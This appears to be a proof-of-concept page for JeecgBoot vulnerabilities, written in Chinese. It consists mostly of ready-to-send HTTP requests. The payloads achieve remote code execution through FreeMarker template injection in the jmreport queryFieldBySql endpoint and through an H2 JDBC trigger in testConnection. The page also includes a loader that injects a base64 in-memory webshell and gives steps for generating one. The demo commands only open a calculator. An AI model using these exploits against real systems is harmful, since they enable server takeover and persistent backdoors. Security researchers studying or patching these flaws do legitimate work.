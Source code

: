 ## JeecgBoot sql注入漏洞
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.90.1:3100
Origin: http://192.168.90.1:3100
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 123

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"open -a calculator.app  \") }' "}
```
## queryFieldBySql 注入内存马
```
{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='这里填入base64的内存马';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```
使用内存马工具生成payload，将生成的base64格式的内存马 替换payload 中bytecodeBase64的值

![image](https://github.com/wy876/POC/assets/139549762/55a9877c-c111-4897-a665-8f58e9de5300)

![image](https://github.com/wy876/POC/assets/139549762/03a476fa-7d2a-4221-9c96-c5b60040adfd)

![image](https://github.com/wy876/POC/assets/139549762/24b6b0b2-419c-43d1-a0c8-8ced440e0a79)

内存马路径：`http://192.168.18.131:8080/jeecg-boot/jmreport/queryFieldBySql/`

## JeecgBoot SSTI 漏洞
```
POST /jeecgboot/jmreport/testConnection HTTP/1.1
Host: 192.168.90.1:3100
Content-Length: 383
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.90.1:3100
Referer: http://192.168.90.1:3100/login?redirect=/dashboard/analysis
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "id": "1",
  "code": "dataSource1",
  "dbType": "H2",
  "dbDriver": "org.h2.Driver",
  "dbUrl": "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('open -a calculator.app')\u000A$$",
  "dbName": "test",
  "dbUsername": "sa",
  "dbPassword": "",
  "connectTimes": 5
}

```
## 漏洞分析
https://c0olw.github.io/2023/08/15/JeecgBoot-SSTI%E4%BB%A5%E5%8F%8AJDBC-RCE/
